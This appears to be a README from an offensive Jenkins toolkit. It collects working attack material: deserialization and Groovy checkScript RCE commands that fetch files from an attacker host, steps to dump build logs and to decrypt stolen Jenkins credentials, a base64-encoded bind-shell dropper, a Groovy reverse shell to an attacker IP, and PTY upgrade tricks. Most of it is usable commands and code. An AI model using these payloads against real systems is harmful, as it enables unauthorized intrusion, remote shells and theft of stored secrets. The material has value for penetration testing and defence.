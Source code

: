 <img src="/pwn_jenkins.png" width="640">

Remote Code Execution
=====================
Deserialization RCE in old Jenkins (CVE-2015-8103, Jenkins 1.638 and older)
---------------------------------------------------------------------------
Use [ysoserial](https://github.com/frohoff/ysoserial) to generate a payload.
Then RCE using [this script](./rce/pwn_jenkins.py):

```bash
java -jar ysoserial-master.jar CommonsCollections1 'wget myip:myport -O /tmp/a.sh' > payload.out
./jenkins_rce.py jenkins_ip jenkins_port payload.out
```


Metaprogramming RCE in Jenkins Plugins (CVE-2019-100300{0,1,2})
---------------------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-01-08)

Original pre-auth RCE vulnerability [here](https://blog.orange.tw/2019/02/abusing-meta-programming-for-unauthenticated-rce.html).

Alternative RCE with Overall/Read and Job/Configure permissions [here](https://github.com/adamyordan/cve-2019-1003000-jenkins-rce-poc).


CheckScript RCE in Jenkins (CVE-2019-10030{29,30})
--------------------------------------------------
[Jenkins Advisory](https://jenkins.io/security/advisory/2019-03-06/), [Credits](https://twitter.com/webpentest).

Check if a Jenkins instance is vulnerable (needs Overall/Read permissions) with some Groovy:
```bash
curl -k -4 -X POST "https://whatever.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){sleep(5000)}}'
```

Execute arbitraty bash commands:
```bash
curl -k -4 -X POST "https://whatever.com/descriptorByName/org.jenkinsci.plugins.scriptsecurity.sandbox.groovy.SecureGroovyScript/checkScript/" -d "sandbox=True" -d 'value=class abcd{abcd(){"wget xx.xx.xx.xx/bla.txt"}}'
```

Alternative RCE/DACL bypass payload [here](https://gist.github.com/akhil-reni/e2116cc243af096ca3416168f49b3298) though be advised that this one will absolutely trash the whole security configuration!


Dumping builds to find cleartext secrets
========================================
Use [this script](./dump_builds/jenkins_dump_builds.py) to dump build console outputs and build environment variables to hopefully find cleartext secrets.

```
usage: jenkins_dump_builds.py [-h] [-u USER] [-p PASSWORD] [-o OUTPUT_DIR]
                              [-d] [-l] [-r]
                              url [url ...]

Dump all available info from Jenkins

positional arguments:
  url

optional arguments:
  -h, --help            show this help message and exit
  -u USER, --user USER
  -p PASSWORD, --password PASSWORD
  -o OUTPUT_DIR, --output-dir OUTPUT_DIR
  -d, --downgrade_ssl   Downgrade SSL to use RSA
  -l, --last            Dump only the last build of each job
  -r, --recover_from_failure
                        Recover from server failure, skip all existing
                        directories
```

Files to copy after compromission
=================================

These files are needed to decrypt Jenkins secrets:

* secrets/master.key
* secrets/hudson.util.Secret

Such secrets can usually be found in:

* credentials.xml
* jobs/.../build.xml

Here's a regexp to find them:
```bash
grep -re "^\s*<[a-zA-Z]*>{[a-zA-Z0-9=+/]*}<"
```


Decrypt Jenkins secrets offline
===============================

Use [this script](./offline_decryption/jenkins_offline_decrypt.py) to decrypt previsously dumped secrets.

```
Usage:
	jenkins_offline_decrypt.py <jenkins_base_path>
or:
	jenkins_offline_decrypt.py <master.key> <hudson.util.Secret> [credentials.xml]
or:
	jenkins_offline_decrypt.py -i <path> (interactive mode)
```


Groovy Scripts
==============
Decrypt Jenkins secrets from Groovy
-----------------------------------

```java
println(hudson.util.Secret.decrypt("{...}"))
```


Command execution from Groovy
-----------------------------

```java
def proc = "id".execute();
def os = new StringBuffer();
proc.waitForProcessOutput(os, System.err);
println(os.toString());
```

For multiline shell commands, use the following shell syntax trick (example includes bind shell):

```java
def proc="sh -c \$@|sh . echo /bin/echo f0VMRgIBAQAAAAAAAAAAAAIAPgABAAAAeABAAAAAAABAAAAAAAAAAAAAAAAAAAAAAAAAAEAAOAABAAAAAAAAAAEAAAAHAAAAAAAAAAAAAAAAAEAAAAAAAAAAQAAAAAAAzgAAAAAAAAAkAQAAAAAAAAAQAAAAAAAAailYmWoCX2oBXg8FSJdSxwQkAgD96UiJ5moQWmoxWA8FajJYDwVIMfZqK1gPBUiXagNeSP/OaiFYDwV19mo7WJlIuy9iaW4vc2gAU0iJ51JXSInmDwU= | base64 -d > /tmp/65001".execute();
```


Reverse shell from Groovy
-------------------------

```java
String host="myip";
int port=1234;
String cmd="/bin/bash";Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();

```

I'll leave this reverse shell tip to recover a fully working PTY here in case anyone needs it:

```bash
python -c 'import pty; pty.spawn("/bin/bash")'
^Z bg
stty -a
echo $TERM
stty raw -echo
fg
export TERM=...
stty rows xx columns yy
```
